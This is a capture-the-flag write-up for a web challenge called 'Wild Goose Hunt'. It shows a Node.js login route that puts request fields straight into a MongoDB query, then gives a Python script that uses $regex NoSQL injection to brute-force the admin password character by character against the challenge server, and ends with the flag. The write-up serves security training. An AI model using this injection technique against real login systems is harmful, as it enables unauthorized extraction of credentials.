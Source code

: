# Wild Goose Hunt
## Description
Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

## Files
Provided docker environment.

## Code

### `entrypoint.sh` (docker initialization file)
```sh
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh
mkdir /tmp/mongodb
mongod --noauth --dbpath /tmp/mongodb/ &
sleep 2
mongo heros --eval "db.createCollection('users')"
mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
/usr/bin/supervisord -c /etc/supervisord.conf
```

### `routes/index.js`
```js
const express = require('express');
const router  = express.Router();
const User    = require('../models/User');

router.get('/', (req, res) => {
        return res.render('index');
});

router.post('/api/login', (req, res) => {
        let { username, password } = req.body;

        if (username && password) {
                return User.find({ 
                        username,
                        password
                })
                        .then((user) => {
                                if (user.length == 1) {
                                        return res.json({logged: 1, message: `Login Successful, welcome back ${user[0].username}.` });
                                } else {
                                        return res.json({logged: 0, message: 'Login Failed'});
                                }
                        })
                        .catch(() => res.json({ message: 'Something went wrong'}));
        }
        return res.json({ message: 'Invalid username or password'});
});
```

### `models/User.js`
```js
const mongoose = require('mongoose');
const Schema   = mongoose.Schema;

let User = new Schema({
        username: {
                type: String
        },
        password: {
                type: String
        }
}, {
        collection: 'users'
});

module.exports = mongoose.model('User', User);
```

## Methodology
We are using a `POST /api/login` request to fetch documents from `mongo` to login. We get a confirmation on successful or unsuccessful login. However `mongo` input is unsanitized, therefore we can use special `mongo` fetch constructs to get special results from the db. We will use [regex](https://docs.mongodb.com/manual/reference/operator/query/regex/) for a blind boolean-based nosql. This way, we can exfiltrate the password one character at the time from the db.

## Exploit
```python
#!/usr/bin/python3

import requests
import json
import string

st = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ}'

pas = 'CHTB{'
for i in range(64):
  for i in range(0, len(st)-1):
    data = {'username': 'admin', "password":{"$regex": "%(pass)s%(i)s.*" % {"pass":pas, "i":st[i]}}}
    r = requests.post('http://138.68.148.149:30865/api/login', json=data)
    c = r.content.decode()
    j = json.loads(c)
    
    if j['logged'] == 1:
      pas += st[i]
      print(pas)
      break
```

Bruteforcing...

![brute](./brute.PNG)

Closing curly brace wasn't detected, so we add it at the end.

## Flag
**CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}**